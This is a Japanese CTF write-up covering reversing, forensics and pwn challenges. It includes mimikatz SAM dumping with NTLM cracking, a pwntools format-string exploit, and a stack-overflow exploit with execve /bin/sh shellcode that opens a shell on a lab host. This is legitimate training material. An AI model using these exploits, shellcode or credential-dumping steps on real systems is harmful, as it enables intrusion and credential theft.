elf ファイルを [FileInsight-plugins](https://github.com/nmantani/FileInsight-plugins/blob/master/README.ja.md) の Parsing -> Parse file structure プラグインで ELF 形式の実行ファイルとしてパースするとパースエラーになりました。


```
Error: parse failed.
Traceback (most recent call last):
  File "Parsing/parse_file_structure.py", line 500, in <module>
    obj._read()
  File "./Parsing/Kaitai Struct\elf.py", line 232, in _read
    raise kaitaistruct.ValidationNotEqualError(b"\x7F\x45\x4C\x46", self.magic, self._io, u"/seq/0")
kaitaistruct.ValidationNotEqualError: /seq/0: at pos 4: validation failed: not equal, expected b'\x7fELF', but got b'XXXX'

Added bookmark to the position of parse error.
```

エラーメッセージで "expected b'\x7fELF', but got b'XXXX'" となっているので、ファイルの先頭4バイトの XXXX の部分を 7F 45 4C 46 (45 4C 46 はバイナリに変換すると "ELF" の文字列) に修正します。修正後に再度 Parse file structure プラグインを実行するとファイルをパースすることができて、正しく読めるようになったようです。


修正したファイル elf-fixed を実行したらフラグが得られました。

```shell
$ ./elf-fixed
flag{run_makiba}
$
```

## Passcode2 (150 pts, 109 solves)
```
予想以上の結果だった。今日もガラス越しに対象が目を覚ます。ここまでうまくいったことはかつてない。端末に今日のデータを送信する。今度こそうまくいくかもしれない。

添付されたファイルを解析してフラグを得てください。
```

passcode2 のファイルを [IDA Freeware](https://hex-rays.com/ida-free/) で開いてコードを見ていくと loc_13F3 でバイト列を 0x2a と XOR しているところがあるので、該当するバイト列の 18 1F 04 79 4F 5A 04 18 1A 1B 1E を [FileInsight](https://www.mcafee.com/enterprise/ja-jp/downloads/free-tools/fileInsight.html) のデコード機能を使って 0x2a と XOR するとパスコード 25.Sep.2014 が得られました。


passcode2 を実行してパスコード 25.Sep.2014 を入力するとフラグが得られました。

```shell
$ ./passcode2
Enter the passcode: 25.Sep.2014
The passcode has been verified.

Flag is : flag{25.Sep.2014}
$
```

## to_analyze (200 pts, 82 solves)
```
あの施設はなんだったのだろう。ふとした瞬間に思い出す。「秘密情報が含まれているファイルを入手した。特定の環境で実行した場合のみ情報が表示される仕組みのようだが条件が特定できない。解析してみてくれないか。」同僚から連絡が入る。端末を開き受信データを確認する。今日の解析対象が画面に表示される。

添付されたファイルを解析してフラグを入手してください。
ファイルは「infected」というパスワード付き ZIP になっています。
```

to_analyze.exe を実行すると "nice try!" というメッセージが表示されます。

```
> .\to_analyze.exe
nice try!
>
```

[FileInsight-plugins](https://github.com/nmantani/FileInsight-plugins/blob/master/README.ja.md) の Parsing -> File type プラグインで to_analyze.exe のファイルタイプを判別してみます。


32ビットの .NET な実行ファイルだったので 32ビット版の [dnSpy](https://github.com/dnSpy/dnSpy) を使って解析することにします。

```
File type of the whole file: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

dnSpy で to_analyze.exe をデコンパイルすると以下のように C# のコードでディレクトリの存在をチェックしているところがありました。"if (Directory.Exists(A_0))" の行にブレークポイントを設定して実行してみると A_0 の値は "C:\Users\321txt" で、このフォルダの存在をチェックしていることが分かりました。

```C#
	// Token: 0x06000007 RID: 7 RVA: 0x000021E4 File Offset: 0x000003E4
	private static void a(string A_0, byte[] A_1)
	{
		if (Directory.Exists(A_0))
		{
			Console.WriteLine("Yes, that's the right answer.");
			byte[] array = new byte[]
			{
				9,
				37,
				48,
				34,
				41,
...
```


"C:\Users\321txt" のフォルダを作成してから to_analyze.exe を実行するとフラグが得られました。

```
> .\to_analyze.exe
Yes, that's the right answer.

flag{Do_y0u_Kn0w_Ursnif?}
>
```

# Forensics
## MFT (100 pts, 143 solves)
```
内部告発によりある要員が極秘情報をファイルサーバからダウンロードしていることが判明しました。組織は要員の身柄を抑え、端末から証拠となるデータを抽出しました。今回のあなたの仕事は、端末から抽出したデータを解析し、ダウンロードされた極秘情報のファイル名を特定することです。組織からは極秘情報のダウンロードされた日時が 2021-07-18 18:30頃 であることと、ファイルサイズが 465030 であることのみが伝えられています。

添付ファイルを解析し、極秘情報のファイル名を特定してください。例えばファイル名が file.txt の場合は flag{file.txt} と回答してください。
```

C_$MFT は NTFS の Master File Table のようだったので [fte(FILETIME Extractor)](http://www.kazamiya.net/fte) を使って C_$MFT を解析しました。画面 右上の UTC を有効にして C_$MFT を読み込み、作成日時(crtime)の順で降順にソートして crtime が 2021-07-18 18:30頃のものを調べると kimitsu.zip というファイルがありました。


ということで以下がフラグでした。
```
flag{kimitsu.zip}
```

## tkys_another_day (100 pts, 126 solves)
```
無事でいてくれているだろうか。あなたは後輩の端末に残されていたある画像ファイルが気になっています。作成された日付は音信不通となる前日。ファイルは作りかけなのか、断片的な情報しか表示されません。もしかすると後輩の消息についての重要な手がかりが隠されているのではないか。あなたはファイルを詳しく解析することにしました。

添付されたファイルを解析し、フラグを入手してください。
```

tkys_another_day.png を表示するとフラグの一部だけが表示されているようでした。


何気なく Firefox で開いてしばらく他の作業をしてから Firefox のウィンドウを見てみたら、あれ？表示が変わってる！？ということでどうもこのファイルは Animated Portable Network Graphics (APNG) のようです。

APNG ファイルを編集できるソフトウェアを探してみたところ [RealWorld Paint](http://www.rw-designer.com/image-editor) というソフトウェアがありましたのでこちらで tkys_another_day.png を開いてみるとフラグが書かれた複数枚の画像がありました。


フラグは以下のとおりでした。

```
flag{a_fake_illness_is_the_most_serious_disease_f5ab7}
```

## TITLE (120 pts, 25 solves)
```
仕事を終えて帰宅の途につくあなた。人通りの少ない住宅街を通り過ぎ、自宅のマンションにたどり着きます。ちょうど部屋のドアの前に立った時に手に持っていた携帯が鳴りメールを受信したことを伝えます。

件名：これが最後の警告だ

そのメールには画像が添付されていました。

添付されたファイルを解析し、フラグを得てください。
```

lo3rs1tkd.jpg はこのような画像ファイルでした。


過去に参加した CTF の問題で画像の高さを変えるとフラグが見えるようになった問題があったので、もしかするとこれもそういう問題かもしれないと思って高さを変えてみることにしました。 [FileInsight-plugins](https://github.com/nmantani/FileInsight-plugins/blob/master/README.ja.md) の Parsing -> Parse file structure プラグインで JPEG ファイルとしてパースしてみます。


オフセット 0xa3 から 0xa4 の2バイトが画像の高さ、0xa5 から 0xa6 の2バイトが画像の幅の値になりますので、試しに高さを幅と同じ 05 00 に変えてみます。


高さの値を変えたファイルを lo3rs1tkd-modified.jpg として保存して表示してみると QR コードの断片が現れました。


QR コードのエディタを探してみたら [QRazyBox](https://merricx.github.io/qrazybox/) というブラウザ上で動作する QR コードエディタがありましたので、これを使って端の方から間違えないようにポチポチクリックして入力していきます。QR コードにはマスクパターンというものがあって青い部分がマスクパターンによって異なっているそうです。QR コードの断片の左下の端の並びからマスクパターンは1であることが分かりました。


入力が終わったら Tools の Extract QR Information 機能を使います。この機能は現在入力されている QR コードから頑張ってデータを読み取ってくれます。


QR コードの断片からフラグを得ることができました。

```
flag{Y0u_h4ve_w1tnessed_t00_much}
```

解いた後で気付いたのですが、QRazyBox のヘルプに QR コードの断片からデータを読み取る例がありました。

Basic Example  
https://merricx.github.io/qrazybox/help/examples/basic-example.html

## CSIRT_asks_you_01 (150 pts, 99 solves)
```
組織内のインシデント対応部署から急ぎ解析してほしいとの依頼が舞い込みました。不正侵入が確認された端末の Windows イベントログの調査で、状況把握のために侵害に関する詳細な日時を確認してほしいということのようです。

今回のあなたの仕事は送られてきたファイルを解析し、不正な方法によってネットワーク経由のログインが成功したことを示している最初の記録日時（TimeCreated SystemTime） と Event ID を特定することです。

フラグは UTC での記録日時 を yyyy/mm/dd_hh:mm:ss 形式にし、最後に Event ID をアンダースコアでつなげた形で答えてください。例えば 記録日時 が 2020/01/10 7:05:13.9234567Z 、Event ID が 1234 の場合は flag{2020/01/10_07:05:13_1234} となります。記録日時は UTC+0 で回答することに注意してください。
```

Security.evtx は Windows のイベントログのファイルなのでイベントビューアで読み込んでみます。イベントIDの 4624 (ログオンの成功), 4625 (ログオンの失敗), 4672 (特権の使用) に絞って表示するようにフィルタしたりしてイベントログを見ていくと、2021/07/19 5:09:21 に 192.168.224.120 (lizardface) から STELLA-PC にユーザ名 test でログオンに成功したログがありました。



2021/07/19 5:09:21 は UTC+9 の日時ですので UTC+0 に日時を変換してフラグは以下のとおりでした。

```
flag{2021/07/18_20:09:21_4624}
```

## unallocated_space (150 pts, 97 solves)
```
「こりゃ今夜は帰れそうにないな」同僚がそう言いながらハードディスクやUSBメモリが大量に詰まった箱をどさっとデスクに置きます。すべてある組織で使用されていたもので本来は破壊処理されるはずが、不正に利益を得ようとした人物が仲介したことにより、破壊処理されずに中古市場に出回ってしまったもののようです。今日が記念日だという同僚を早く帰すため、あなたはディスクの解析調査を手伝うことにしました。復元可能なデータがないか確認してください。

添付されたファイルを解析し、フラグを入手してください。
```

unallocated_space ファイルを [FTK Imager](https://accessdata.com/product-download/ftk-imager-version-4-5) で開いてみると先頭セクタの MBR (Master Boot Record) にあるパーティションテーブルが 00 で上書きされてしまっているためパーティションが認識されていませんでした。


unallocated_space ファイルを [FileInsight-plugins](https://github.com/nmantani/FileInsight-plugins/blob/master/README.ja.md) の Parsing -> Parse file structure プラグインで MBR (Master Boot Record) partition table としてパースしてみます。オフセット 0x1be から 0x1fd までの64バイトが16バイト×4個のパーティションテーブルです。


もしかして上書きされて破壊されているのはパーティションテーブルだけで他の部分は無事なのでは、と思って FTK Imager で unallocated_space ファイルを見てみると128セクタ目に NTFS のパーティションの先頭があり、こちらは無事なようでした。


ということでパーティションテーブルを復元してみます。unallocated_space ファイルに以下のように値を書き込んで unallocated_space_fixed という名前で保存します。

- オフセット 0x1c0 (パーティションタイプ): 0x7 (NTFS)
- オフセット 0x1c6 から 0x1c9 (パーティション開始位置): 0x80 (128セクタ目)
- オフセット 0x1ca から 0x1cd (パーティションのサイズ): 0xef7f (61311 セクタ, unallocated_space の総セクタ数 61439 - 128)


unallocated_space_fixed を FTK Imager で開いてみると NTFS のパーティションが認識されて、ルートディレクトリに flag.mp4, flag_backup1.mp4, flag_backup2.mp4 というファイルがありました。これら3つをエクスポートしてみると同一のファイルでした。


flag.mp4 を再生するとフラグが得られました。


```
flag{file_carving_gogo}
```

ん？ファイルカービング？どうも想定とは違う解き方で解いてしまったようです。😅

## CSIRT_asks_you_02 (200 pts, 62 solves)
```
組織内のインシデント対応部署から引き続き急ぎ解析してほしいとの依頼を受けています。

一つ目の解析依頼（CSIRT_asks_you_01）の結果と別の証拠などから、あるアカウントのパスワードが脆弱である可能性が示唆されています。添付されたファイルを解析し、そのパスワードを特定してください。

フラグはアカウント名とパスワード（平文）をアンダースコアでつないで回答してください。例えばアカウント名が user 、パスワードが pass の場合は flag{user_pass} と回答します。
```

パスワード解析を行うために [Mimikatz](https://github.com/gentilkiwi/mimikatz) を使って添付された SYSTEM と SAM のファイルからパスワードハッシュをダンプします。

```
> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /system:C:\Users\user\Desktop\csirt_asks_you_02_efe7331ca21b21725da73405987bc9c9ad0d6787\SYSTEM /sam:C:\Users\user\Desktop\csirt_asks_you_02_efe7331ca21b21725da73405987bc9c9ad0d6787\SAM
Domain : STELLA-PC
SysKey : c2f71c8a15cee734ce4ab65b3e9da4e1
Local SID : S-1-5-21-3590118637-3649102893-3870174881

SAMKey : e6e30a12b887683f1575e49722cc276a

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 27c3a146aa209b2120f7ecc9db065540

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 2ff2be4a0471bb0ceed9c455309964d6

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d477311ab730aa09c3486b151ea88aa8c30f389c51237bf6d0e3f520a1c6153e
      aes128_hmac       (4096) : 2bf28a46916ffcb347868f145164f0b4
      des_cbc_md5       (4096) : 32e9c74ad601fe23

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 32e9c74ad601fe23


RID  : 000003e9 (1001)
User : stella
  Hash NTLM: 2f8ae2e260d0cfe3756ff53e639e3377

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a6d7f4fff7af032abd0f61bf2d804325

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-O4DN20Tstella
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : da423869d3a7770407f64057daa6994ef82c8b34272f81a33824f841ee100220
      aes128_hmac       (4096) : cedf73b579a12b0a8b990656ec02e9ce
      des_cbc_md5       (4096) : b676267ad5cdc1dc
    OldCredentials
      aes256_hmac       (4096) : da423869d3a7770407f64057daa6994ef82c8b34272f81a33824f841ee100220
      aes128_hmac       (4096) : cedf73b579a12b0a8b990656ec02e9ce
      des_cbc_md5       (4096) : b676267ad5cdc1dc

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-O4DN20Tstella
    Credentials
      des_cbc_md5       : b676267ad5cdc1dc
    OldCredentials
      des_cbc_md5       : b676267ad5cdc1dc


RID  : 000003ea (1002)
User : test
  Hash NTLM: 3c99b8901b00758369f18b9df72012c8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b78f688eb504f9296edf06a455b5e602

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-O4DN20Ttest
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : af0ca858bda2d0332abccce6098362098d125c8533ac7f79ced9ada64aaf0826
      aes128_hmac       (4096) : b7a4eb1224c5e4fbaaf96aac8326ae4e
      des_cbc_md5       (4096) : 316897ae3434c8fe
    OldCredentials
      aes256_hmac       (4096) : af0ca858bda2d0332abccce6098362098d125c8533ac7f79ced9ada64aaf0826
      aes128_hmac       (4096) : b7a4eb1224c5e4fbaaf96aac8326ae4e
      des_cbc_md5       (4096) : 316897ae3434c8fe

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-O4DN20Ttest
    Credentials
      des_cbc_md5       : 316897ae3434c8fe
    OldCredentials
      des_cbc_md5       : 316897ae3434c8fe


RID  : 000003eb (1003)
User : akari
  Hash NTLM: b66eade488ce2c23ba226427e40fed41

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 50ba2985f6e0fcd178bcd13ad8f9d535

* Primary:Kerberos-Newer-Keys *
    Default Salt : STELLA-PCakari
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d9d151e3efefb1c711bee2f5f8bc53e3b4bbc05256f17060bd95655f39d268ad
      aes128_hmac       (4096) : fc4e0aedfe3b3dbaea624ddc87df759b
      des_cbc_md5       (4096) : f28a402aef311f6b
    OldCredentials
      aes256_hmac       (4096) : d9d151e3efefb1c711bee2f5f8bc53e3b4bbc05256f17060bd95655f39d268ad
      aes128_hmac       (4096) : fc4e0aedfe3b3dbaea624ddc87df759b
      des_cbc_md5       (4096) : f28a402aef311f6b

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : STELLA-PCakari
    Credentials
      des_cbc_md5       : f28a402aef311f6b
    OldCredentials
      des_cbc_md5       : f28a402aef311f6b


mimikatz #
>
```

CSIRT_asks_you_01 の問題では test ユーザが侵入されていましたので、以下のサイトを参考にして test ユーザのハッシュを [Kali Linux](https://www.kali.org/) に入っている [John the Ripper](https://www.openwall.com/john/) でクラックしてみます。

Dumping credentials from SAM file using mimikatz and cracking with john the ripper and hashcat  
https://sanjumalhotra26.medium.com/dumping-credentials-from-sam-file-using-mimikatz-and-cracking-with-john-the-ripper-and-hashcat-ce5bbf2f4f5a

test ユーザのハッシュは先程の mimikatz の出力のこの辺りに出てきています。

```
RID  : 000003ea (1002)
User : test
  Hash NTLM: 3c99b8901b00758369f18b9df72012c8
```

```shell
root@kali:~# cat hash.txt 
3c99b8901b00758369f18b9df72012c8
root@kali:~# john --format=NT --wordlist=rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
testtest         (?)
1g 0:00:00:00 DONE (2021-09-01 02:01) 50.00g/s 2284Kp/s 2284Kc/s 2284KC/s 030293..tampico
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
root@kali:~#
```

test ユーザのパスワードは testtest と判明して、フラグは以下のようになります。

```
flag{test_testtest}
```

# Programming
Programming の問題は解いている方が多いので割愛します。すみません。🙇‍♂️

# Pwn
## 1989 (200 pts, 81 solves)
```
脆弱性を調査し、フラグを入手してください。

nc 10.1.1.10 13030

この設問では Linux ターミナルを使用します。
https://ctf.setodanote.net/webshell/
```

nc コマンドで接続してみると以下のように表示されました。CWE-134 は脆弱性の分類で format string bug です。

```shell
user@dee28892e0d7:~$ nc 10.1.1.10 13030
===========================================================
   _______          ________            __ ____  _  _   
  / ____\ \        / /  ____|          /_ |___ \| || |  
 | |     \ \  /\  / /| |__     ______   | | __) | || |_ 
 | |      \ \/  \/ / |  __|   |______|  | ||__ <|__   _|
 | |____   \  /\  /  | |____            | |___) |  | |  
  \_____|   \/  \/   |______|           |_|____/   |_|  
                                                        
========================================================== 

        | 
flag    | [0x565b8060] >> flag is here << 
        | 

Ready > 
```

[0x565b8060] はフラグが入っているメモリ上のアドレスで、このアドレスは実行する度に変化します。%p%p%p%p%p%p みたいな文字列を入力してみるとスタックの内容を表示することができて、表示された内容の4番目に入力した文字列そのものが出てきているようでしたので、[アドレスのバイト列]%4$s を入力すると format string bug によって入力した任意のアドレスの内容を文字列として読み出すことができそうです。以下のような Python スクリプトを作成してフラグが入っているアドレスの内容を読み出します。

```Python
import pwn

p = pwn.remote("10.1.1.10", 13030)
data = p.recvuntil("]").decode("UTF-8")
print(data)
address_text = data[-11:-1]
print("address_text: %s" % address_text)
address_binary = int(address_text, 16).to_bytes(4, "little")
data = p.recvuntil("Ready >").decode("UTF-8")
print(data)

payload = address_binary + b"%4$s"
p.sendline(payload)
p.interactive()
```

```shell
$ python3 solver.py 
[+] Opening connection to 10.1.1.10 on port 13030: Done
===========================================================
   _______          ________            __ ____  _  _   
  / ____\ \        / /  ____|          /_ |___ \| || |  
 | |     \ \  /\  / /| |__     ______   | | __) | || |_ 
 | |      \ \/  \/ / |  __|   |______|  | ||__ <|__   _|
 | |____   \  /\  /  | |____            | |___) |  | |  
  \_____|   \/  \/   |______|           |_|____/   |_|  
                                                        
========================================================== 

        | 
flag    | [0x565d7060]
address_text: 0x565d7060
 >> flag is here << 
        | 

Ready >
[*] Switching to interactive mode
 Your Inpur : `p]Vflag{Homenum_Revelio_1989}
[*] Got EOF while reading in interactive
$ 
[*] Closed connection to 10.1.1.10 port 13030
$ 
```

ということで Format string bug を使ってフラグを得ることができました。
```
flag{Homenum_Revelio_1989}
```

## Shellcode (300 pts, 51 solves)
```
添付されたファイルを解析し、以下にアクセスしてフラグを入手してください。

nc 10.1.1.10 13050

この設問では Linux ターミナルを使用します。
https://ctf.setodanote.net/webshell/
```

shellcode ファイルを [Ghidra](https://ghidra-sre.org/) でデコンパイルすると以下のようなコードになりました。"target | " の後に入力された文字列が書き込まれるバッファのアドレスが表示されるようです。

```C
undefined8 main(void)

{
  char local_58 [80];
  
  setvbuf(stdout,local_58,2,0x50);
  puts("       |");
  printf("target | [%p]\n",local_58);
  puts("       |");
  printf("Well. Ready for the shellcode?\n> ");
  __isoc99_scanf("%[^\n]",local_58);
  puts(local_58);
  return 0;
}
```

shellcode ファイルにだんだんサイズを大きくしながら文字列 "AAA..." の入力を与えてみると、88バイト分入力したところで segmentation fault になりました。おそらく88バイトの最後の8バイトがスタック上に保存された RBP の値で、そこが "AAAAAAAA" で上書きされたためと思われます。

```shell
$ python3 -c 'import os; os.write(1, b"A"*88+b"\n")' | ./shellcode
       |
target | [0x7fffda4fc730]
       |
Well. Ready for the shellcode?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
       |
target | [0x7fffda4fc730]
       |
Well. Ready for the shellcode?
> AAAAAAAAAAAAAAAAAAAAAAAAEJ4`U
Segmentation fault
$
```

ということで保存された RBP の値の次の8バイトがリターンアドレスになると思われますので、96バイトの入力の先頭にシェルコードを、末尾の8バイトに "target | " の後に表示されるバッファのアドレスをバイト列で入力すると、リターンアドレスがバッファの先頭に書き換えられて main 関数を抜けた後にバッファの先頭にジャンプしてシェルコードを実行できそうです。そのような入力を行う Python スクリプトを作成します。

```Python
import pwn

p = pwn.remote("10.1.1.10", 13050)
buf_size = 80

# シェルコードは http://shell-storm.org/shellcode/files/shellcode-905.php の "x86_64 execveat("/bin//sh") 29 bytes shellcode" を使用
shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

data = p.recvuntil("]").decode("UTF-8")
print(data)
address_text = data[-15:-1]
print("address_text: %s" % address_text)
address_binary = int(address_text, 16).to_bytes(8, "little")
data = p.recvuntil(">").decode("UTF-8")
print(data)

payload = shellcode + (b"A" * (buf_size - len(shellcode) + 8)) + address_binary
p.sendline(payload)
p.interactive()
```

スクリプトを実行するとIPアドレス 10.1.1.10 のマシン上で /bin/sh が実行されて任意のコマンドを実行できるようになりました。

```shell
$ python3 solver.py 
[+] Opening connection to 10.1.1.10 on port 13050: Done
       |
target | [0x7ffc91ea6210]
address_text: 0x7ffc91ea6210

       |
Well. Ready for the shellcode?
>
[*] Switching to interactive mode
 jBX\xfe\xc4H\x99RH\xbf/bin//shWT^I\x89\xd0I\x89\xd2\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\xea\x91\xfc\x7f
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ ls /home
user
$ ls /home/user
flag
shellcode
$ cat /home/user/flag
flag{It_is_our_ch0ices_that_show_what_w3_truly_are_far_m0re_thAn_our_abi1ities}
$ 
[*] Closed connection to 10.1.1.10 port 13050
$ 
```

/home/user/flag にフラグが書かれていました。

```
flag{It_is_our_ch0ices_that_show_what_w3_truly_are_far_m0re_thAn_our_abi1ities}
```
